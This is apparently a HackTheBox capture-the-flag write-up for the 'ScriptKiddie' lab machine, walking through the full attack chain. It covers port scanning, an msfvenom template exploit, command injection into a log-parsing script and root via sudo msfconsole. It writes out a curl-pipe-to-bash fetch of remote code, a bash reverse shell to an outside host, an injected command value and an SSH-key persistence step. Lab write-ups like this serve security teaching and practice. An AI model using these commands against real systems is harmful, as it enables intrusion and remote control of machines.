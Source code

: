 ```yaml
---
title: ScriptKiddie Writeup [HTB]
tags: [HackTheBox, Command Injection]
image: /assets/images/scriptkiddie/scriptkiddie.png
published: true
banner: true
---
```


ScriptKiddie is a Linux based machine that was active since February 6th of 2021 to June 5th, on this machine we will take advantage of an old version of metasploit exposed through a webpage to get command execution on the machine, then we will see that we can perform command injection on a script that is ran for another user in the machine, finally this user can run msfconsole as root which allows us to run any command, so we can get a shell as root.

# [](#header-1)Enumeration

We start using masscan to find all the available ports and then use nmap to get more information about them.

```
masscan -e tun0 --rate=500 -p 0-65535 10.10.10.226
nmap -sC -sV -p 22,5000, -Pn -o scan.txt 10.10.10.226

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There is only two ports open, ssh and a webpage hosted on python on port 5000, let's check it.

![](/assets/images/scriptkiddie/website.png)

# [](#header-1)Gaining Access

The webpage looks like a page that allows to use some common hacking tools through it, so we could guess that there is some kind of command injection, but after testing for a while there is no luck, checking better the site, we see that we can create payloads for windows, linux and android with msfvenom using a file as template, there is a vulnerability on an old version of msfvenom that would allows us to get command injection on generating an apk using an specially crafted template file, searchploit gives us a [link](https://www.exploit-db.com/exploits/49491) to an exploit for it.
We download the exploit, and change the payload for `curl 10.10.14.205:8000/shell.sh | bash`, shell.sh is a file that contains the command for a bash reverse shell. When we run the file, the apk evil.apk, is created inside a directory in /tmp, we start a nc listener and a python http server, then we upload evil.apk as template file, and generate an apk payload, after some seconds we will get a request to our http server and then we will receive a shell to the target machine. With that we can read user.txt.

![](/assets/images/scriptkiddie/shell1.png)

# [](#header-1)Lateral Movement

Looking around the machine we see that there is another user, pwn, inside his home directory there is a file called "scanlosers.sh", which contains the next code:

```bash
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

We see that it reads the file "hackers" inside /home/kid/logs, use cut to parse every line accoring spaces, grabs the third field, and (assuming that that field contains an ip) runs nmap agains it, if we check hackers file we see that it is empty, and if we put anything inside, the file gets emptied again. I generated an ssh key locally, `ssh-keygen -C kid@htb.com`, and put the public key inside /home/kid/.ssh/authorized_keys, now I can connect through ssh, then I uploaded pspy to see what is happening when I put something inside hackers file.
Now we can see that when antything is put inside hackers file, scanloosed.sh is fired up and the nmap scan is performed.

![](/assets/images/scriptkiddie/pspy.png)

We can perform a command injection on this file, first we create a file called .rev, with the next content:

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.205/54322 0>&1
```

We put it inside /home/kid, /tmp is different for every user, so we can't use it, then we set execution permissions on it, `chmod +x .rev`, finally we write on hackers, `&/home/kid/.rev&`, we saw that whatever we put there is reflected on the nmap command, so there is no need to play with the spaces of cut, with that we get a shell as pwn.

![](/assets/images/scriptkiddie/shell2.png)

# [](#header-1)Privilege Escalation

We check if we can run anything with sudo.

![](/assets/images/scriptkiddie/sudo.png)

We see that we can run msfconsole, msfconsole isn't actually much different from an actual shell, we can move along directories, cat files and other stuff, but if we want to get a shell we just have to create a file similiar the the one that we made in the last step, give it execution permissions, and execute it when we are inside msfconsole.

![](/assets/images/scriptkiddie/execute.png)

And with that we get a shell as root, and we have finished with the machine.

![](/assets/images/scriptkiddie/root.png)